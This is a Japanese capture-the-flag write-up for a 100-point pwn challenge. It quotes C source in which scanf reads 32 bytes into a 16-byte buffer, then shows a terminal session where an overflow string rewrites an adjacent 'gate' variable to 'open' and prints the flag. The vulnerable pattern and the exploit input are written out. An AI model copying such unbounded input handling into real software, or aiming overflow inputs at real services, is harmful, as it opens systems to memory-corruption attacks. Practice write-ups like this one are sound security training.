 # tkys_let_die:Pwn:100pts
瑠璃色の扉を有する荘厳な門が目の前にあった。めずらしく後輩が家に招待してくれるというので訪問することにしたあなた。うちの家は特別に許可を受けた人物でないと入れないもので。後輩はそういうとすみませんねと静かに門を閉じる。招かれても許可はもらえていないのか。どうやら後輩の家に入るにはこの門を自力で突破する必要がありそうです。  
添付されたファイルを解析し、以下にアクセスしてフラグを入手してください。  
`nc 10.1.1.10 13020`  
この設問では Linux ターミナルを使用します。  
[https://ctf.setodanote.net/webshell/](https://ctf.setodanote.net/webshell/)  
[tkys_let_die_4dde194173f42fd04abbfa52459b1dfba8c1b682.zip](tkys_let_die_4dde194173f42fd04abbfa52459b1dfba8c1b682.zip)  

# Solution
配布されたソースは以下のようだった。  
```C
~~~
int main(void) {
    char gate[6]="close";
    char name[16]="..";
~~~
    printf("You'll need permission to pass. What's your name?\n> ");
    scanf("%32[^\n]", name);
    if (strcmp(gate,"open")==0) {
        printFlag();
    }else{
        printf("Gate is %s.\n", gate);
        printf("Goodbay %s.\n", name);
    }
~~~
```
BOFで`close`を`open`に書き換えればよい。  
指定されたターミナルを使用する。  
```bash
user@90dd92a1842e:~$ nc 10.1.1.10 13020

                                  {} {}
                          !  !  ! II II !  !  !
                       !  I__I__I_II II_I__I__I  !
                       I_/|__|__|_|| ||_|__|__|\_I
                    ! /|_/|  |  | || || |  |  |\_|\ !
        .--.        I//|  |  |  | || || |  |  |  |\\I        .--.
       /-   \    ! /|/ |  |  |  | || || |  |  |  | \|\ !    /=   \
       \=__ /    I//|  |  |  |  | || || |  |  |  |  |\\I    \-__ /
        }  {  ! /|/ |  |  |  |  | || || |  |  |  |  | \|\ !  }  {
       {____} I//|  |  |  |  |  | || || |  |  |  |  |  |\\I {____}
 _!__!__|= |=/|/ |  |  |  |  |  | || || |  |  |  |  |  | \|\=|  |__!__!_
 _I__I__|  ||/|__|__|__|__|__|__|_|| ||_|__|__|__|__|__|__|\||- |__I__I_
 -|--|--|- ||-|--|--|--|--|--|--|-|| ||-|--|--|--|--|--|--|-||= |--|--|-
  |  |  |  || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||  |  |  |
  |  |  |= || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||= |  |  |
  |  |  |- || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||= |  |  |
  |  |  |- || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||- |  |  |
 _|__|__|  ||_|__|__|__|__|__|__|_|| ||_|__|__|__|__|__|__|_||  |__|__|_
 -|--|--|= ||-|--|--|--|--|--|--|-|| ||-|--|--|--|--|--|--|-||- |--|--|-
  |  |  |- || |  |  |  |  |  |  | || || |  |  |  |  |  |  | ||= |  |  |
 ~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^~~~~~~~~~~~

You'll need permission to pass. What's your name?
> 1234567890qwertyuiopasdfghjklzxcvbnm
Gate is jklzxc.
Goodbay 1234567890qwertyuiopasdfghjklzxc.


user@90dd92a1842e:~$ nc 10.1.1.10 13020
~~~
You'll need permission to pass. What's your name?
> aaaaaaaaaaaaaaaaaaaaaaaaaaopen

 =============================

     GREAT! GATE IS OPEN!!

 >> Flag is flag{Alohomora} <<

    *-*-*-*-*-*-*-*-*-*-*-*   

 =============================
```

## flag{Alohomora}